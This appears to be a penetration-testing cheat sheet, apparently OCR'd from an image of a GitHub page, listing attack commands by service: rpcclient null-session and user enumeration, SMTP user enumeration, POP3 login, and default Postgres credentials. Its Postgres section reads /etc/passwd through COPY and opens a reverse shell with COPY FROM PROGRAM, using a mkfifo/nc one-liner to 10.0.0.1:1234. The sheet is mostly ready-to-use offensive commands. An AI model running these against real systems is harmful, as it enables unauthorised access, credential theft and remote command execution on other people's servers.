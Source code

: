## RPC
```
rpcclient <host> 
rpcclient <host> -U ''
rpcclient <host> -U '' -N
rpcclient <host> -U 'guest'
enumdomusers
srvinfo  
enumdomusers  
enumprivs  
enumalsgroups domain  
lookupnames administrators  
querydominfo  
enumdomusers  
queryuser john
ridenum.py <server ip> <start rid> <end rid> <optional username file> (enumerate users)
```
- Null Sessions
- rpcinfo & rpcclient
- querydispinfo

## SMTP
- Check Version
- User Enumeration using smtp-user-enum
```
finger -p "username"
```

## POP3
```
telnet <domain> 110
user <username>
pass <password>
list
retr <number>
```

## MSSQL
- Vulnerable Software
- Brute Force
- Default Credentials

## Postgres [Postgres Command Execution](https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767)
- Default Creds (postgres:postgres)
```
\l
\c <database>

# Read Files
CREATE TABLE read_files(output text);
COPY read_files FROM '/etc/passwd';
SELECT * FROM read_files;

# Command Exec
CREATE TABLE shell(output text);
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f';
```
